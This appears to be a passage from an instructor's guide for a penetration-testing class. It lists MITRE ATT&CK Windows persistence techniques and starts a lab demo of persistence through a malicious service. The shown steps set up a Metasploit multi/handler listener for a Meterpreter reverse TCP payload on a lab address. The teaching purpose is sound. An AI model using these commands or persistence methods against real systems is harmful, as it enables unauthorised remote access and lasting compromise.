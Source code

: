 There are also MITRE techniques for persistence. Show students the MITRE page for persistence: https://attack.mitre.org/tactics/TA0003/.

- **MITRE technique: [Boot or Logon Initialization Scripts: Logon Script (Windows)](https://attack.mitre.org/techniques/T1037/001/)**
  - In this technique, a pentester can register a script as a registry key that will execute on startup or login. 

- **MITRE technique: [Create or Modify System Process: Windows Service](https://attack.mitre.org/techniques/T1543/003/)**
  - In this technique, a pentester can modify a service to run an executable on startup. 
    - Remind students that services are run as SYSTEM by default. 
    - Even though services can be abused for privilege escalation, they can also be used for persistence.

- **MITRE technique: [Event Triggered Execution: Windows Management Instrumentation Event Subscription](https://attack.mitre.org/techniques/T1546/003/)**
  - This technique leverages Windows Management Instrumentation (WMI), a way of managing Windows machines, to perform an action once a specific event in Windows is triggered. 
  - For example, whenever a logon event is created in Windows (which occurs when a user logs in), use WMI to start a new process (which could be a payload). 

- **MITRE technique: [Event Triggered Execution: Screensaver](https://attack.mitre.org/techniques/T1546/002/)**
  - This technique allows the pentester to replace the executable that is used to display the screensaver with a malicious executable or payload. 

Point out that these are just some examples of persistence techniques in Windows; and this isn't a comprehensive list.
- Inform students that you will now demonstrate the persistence technique of creating a malicious service.
	
	
#### Windows Persistence Demo

To demonstrate persistence using malicious services, you will use `msfvenom` to generate a Meterpreter payload, transport it to the Windows machine, and register a service using it. 

- This will require an active shell as SYSTEM on the Windows10 machine. Note: The first six steps listed detail how to open a Meterpreter shell on the Windows10 machine if you do not have an active session already.

1. Log in to Kali and open a terminal. Start Metasploit with the following command:

     - `msfconsole`
	 
**Note**: If you already have Metasploit open and running, kill any jobs that may be running in the background with `jobs -K`.

2. Load the `multi/handler` module with the following command:

	 - `use exploit/multi/handler`
	
3. Set the parameters to listen for the payload with the following commands:

	 - `set LHOST 172.22.117.100`
	 - `set LPORT 4444`
	 - `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
	 - `run -j`
